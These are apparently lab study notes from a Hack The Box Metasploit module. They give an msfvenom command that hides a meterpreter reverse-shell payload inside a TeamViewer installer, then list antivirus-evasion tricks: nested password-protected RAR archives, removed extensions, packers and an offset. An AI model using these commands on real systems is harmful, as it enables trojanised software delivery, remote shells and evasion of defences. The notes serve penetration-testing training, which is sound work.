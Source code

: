     [US Government Post-Mortem Report on the Equifax Hack](https://www.zdnet.com/article/us-government-releases-post-mortem-report-on-equifax-hack/)
    [Protecting from DNS Exfiltration](https://www.darkreading.com/risk/tips-to-protect-the-dns-from-data-exfiltration/a/d-id/1330411)
    [Stoping Data Exfil and Malware Spread through DNS](https://www.infoblox.com/wp-content/uploads/infoblox-whitepaper-stopping-data-exfiltration-and-malware-spread-through-dns.pdf)


Look into this payload, what a beauty:
`msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5`

We can check against virus-total to see wether we get a match for our payload:
`msf-virustotal -k <API key> -f test.js `

Archiving the payload might be a good option:
```bash
zirap98@htb[/htb]$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
zirap98@htb[/htb]$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
zirap98@htb[/htb]$ rar a ~/test.rar -p ~/test.js
```

Then remove the extension:
`mv test.rar test`
then archiving it again and removing the extension again, then AV will most likely not detect it.

We can also run packers:
    UPX packer 	The Enigma Protector 	MPRESS
    Alternate EXE Packer 	ExeStealth 	Morphine
    MEW 	Themida

We can also add an offset to prevent AV from detecting our malware.
```ruby
'Targets' =>
[
 	[ 'Windows 2000 SP4 English', { 'Ret' => 0x77e14c29, 'Offset' => 5093 } ],
],

```

# [Summary of metasploit](https://academy.hackthebox.com/module/39/section/493)
